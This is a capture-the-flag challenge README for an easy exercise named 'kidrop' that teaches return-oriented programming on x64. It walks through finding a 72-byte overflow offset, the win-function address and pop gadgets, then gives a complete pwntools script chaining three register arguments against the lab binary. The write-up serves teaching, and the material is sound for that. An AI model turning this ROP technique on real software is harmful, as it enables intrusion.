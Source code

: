 # Challenge Name
kidrop

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
Let's find out the secrets to pwn...But I need 3 keys ;-;

## Difficulty:
easy

## Guide
Looking at the code, we have to use ret2win again for the uncalled `treasureChest` function. However, we have to fulfil the function arguments in order to call it.
`secretKey` function is also a red herring.
1. key1 = 0x13371337
2. key2 = 0xdeadbeef
3. key3 = 0xcoff33

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use **3** arguments, so we need to use `rdi`, `rsi` & `rdx` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `treasureChest` function
3. Gadgets required for the function arguments

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `jaaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

#### To find `treasureChest` function address:
```sh
$> objdump -d chall | grep treasureChest
0000000000400727 <treasureChest>:
...
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary chall | grep "pop rdi"
0x00000000004008c3 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary chall | grep "pop rsi"
0x00000000004008c1 : pop rsi ; pop r15 ; ret
```

For `rdx` register:
```sh
$> ROPgadget --binary chall | grep ": pop rdx"
0x00000000004007f7 : pop rdx ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `treasureChest` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + key1 (0x13371337)
3. pop rsi address + key2 (0xdeadbeef) + redundent value (0)
4. pop rdx address + key3 (0xcoff33)
5. return address of `treasureChest` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = process("./kid_ROP_bin")
context.binary = "./kid_ROP_bin"

# ROP gadgets
pop_rdi = 0x4008c3 # pop rdi
pop_rsi = 0x4008c1 # pop rsi, pop r15
pop_rdx = 0x4007f7 # pop rdx 

# address of treasureChest 
win = 0x400727

# offer
payload = b'A' * 72

# ---------------------- ROP chain ---------------------------
# pop rdi + key1
# pop rsi + key2 + 0 (no need for r15)
# pop rdx
# address of treasureChest
payload += p64(pop_rdi) + p64(0x13371337)
payload += p64(pop_rsi) + p64(0xdeadbeef) + p64(0)
payload += p64(pop_rdx) + p64(0xc0ff33)
payload += p64(win)

# send and receive output
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. How many arguements do you need? Which registers do you need?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- chall.c
- chall

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html


## Flag
TBD